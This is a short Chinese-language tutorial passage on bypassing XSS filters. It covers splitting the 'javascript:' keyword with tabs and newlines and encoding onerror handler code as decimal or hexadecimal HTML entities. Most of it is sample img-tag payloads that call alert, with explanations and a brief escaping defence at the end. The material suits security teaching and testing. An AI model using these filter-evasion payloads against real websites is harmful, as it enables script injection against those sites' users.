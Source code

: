 * 空格 换行 Tab

```
<img src="javas cript:alert(/xss/)" width=100>
```

> javas 和 cript是Tab

关键字拆分绕过过滤限制，使用Tab, 空格， 换行。原因分析如下：

javascript语句通常以分号结尾，如果一个语句是完整的，而这一行的结尾是换行符，就可以省略分号。如果同一行中有过个语句，则每个语句就必须使用分号来结束(最后一条语句可以不用分号)

```
var a = true
var b = "something";
```

除了在引号中分隔单词或强制结束语句外，额外的空白无论以何种方式添加都无所谓。

```
<img src="javas
cript:
alert(/xss/)">
```

换行处不是一个完整语句时，js会继续处理发现的内容，直到遇到一个分号或发现完整的语句为止

* 标签属性值转码

原理： HTML属性中，会自动对实体字符进行转义

编码绕过，HTML标记的属性值过滤，HTML **属性** 本身支持ASCII码形式, 转码支持十进制和十六进制。

可以在十进制（十六进制）字符后面加 **;** , 还可以在前面加 0 , 如

```
&#0
&#00
&#000
&#0000
```

```
<img src="a" onerror="aler&#116(/xss/)">
<img src=1 onerror="aler&#116;(/xss/)">
<img src="a" onerror="&#97&#108&#101&#114&#116&#40&#47&#120&#115&#115&#47&#41">
<img src="a" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;">
<img src="a" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x2f&#x78&#x73&#x73&#x2f&#x29">
<img src="a" onerror="&#000097&#000108&#000101&#000114&#000116&#000040&#000047&#000120&#000115&#000115&#000047&#000041">
<img src="a" onerror="&#97&#108&#101&#114&#116&#32&#40&#47&#120&#115&#115&#47&#41">
```

注：

```
Tab(&#9), 换行符(&#10), 空格(&#32)可以被插入到代码中任意地方。
```

**防御：**

```
&过滤为 &amp;
```
